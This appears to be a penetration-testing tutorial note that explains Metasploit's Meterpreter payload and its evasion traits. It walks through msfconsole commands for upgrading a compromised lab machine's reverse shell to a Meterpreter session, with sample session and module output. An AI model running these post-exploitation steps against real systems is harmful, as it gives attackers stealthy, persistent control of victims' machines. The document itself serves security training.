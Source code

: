 ```yaml
---
title: "10. Metasploit - Meterpreter"
section: "tools"
date: 2022-12-29
tags: ["meterpreter"]
---
```


- Meterpreter is a Metasploit payload that gives an interactive shell that attackers may use and execute code on the victim system. 
- It uses in-memory DLL injection to deploy. This allows Meterpreter to be fully deployed in the memory and it does not write anything to the disk.
- There are no new processes as Meterpreter gets injected into the affected process. It may also move to other operating processes. The forensic footprint of Meterpreter is therefore very small.

## Upgrade to a meterpreter from shell.

 - After the machine exploited , we landed into the normal command shell. background the current session by `CTRL+Z`
- Find normal command shell's session id.

```
msf6 auxiliary(scanner/vnc/vnc_login) > sessions
```

```
Active sessions
===============

  Id  Name  Type            Information  Connection
  ‐‐  ‐‐‐‐  ‐‐‐‐            ‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐
  2         shell cmd/unix               0.0.0.0:0 -> 192.168.74.129:6200 (192.168.74.129)
  4         shell cmd/unix               192.168.74.128:4444 -> 192.168.74.129:33209 (192.168.74.129)
```

- Search for `shell to meterpreter`

```
msf6 auxiliary(scanner/vnc/vnc_login) > search shell to meterpreter upgrade
```

```
Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   ‐  ‐‐‐‐                                          ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐       ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  post/multi/manage/shell_to_meterpreter                         normal     No     Shell to Meterpreter Upgrade
   1  exploit/windows/local/powershell_cmd_upgrade  1999-01-01       excellent  No     Windows Command Shell Upgrade (Powershell)


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/local/powershell_cmd_upgrade
```

- Let’s use the first one:

```
msf6 auxiliary(scanner/vnc/vnc_login) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > show options
```

```
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ‐‐‐‐     ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```

- Enter the session id :

```
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 4
SESSION => 4
```

- exploit:

```
msf6 post(multi/manage/shell_to_meterpreter) > exploit
```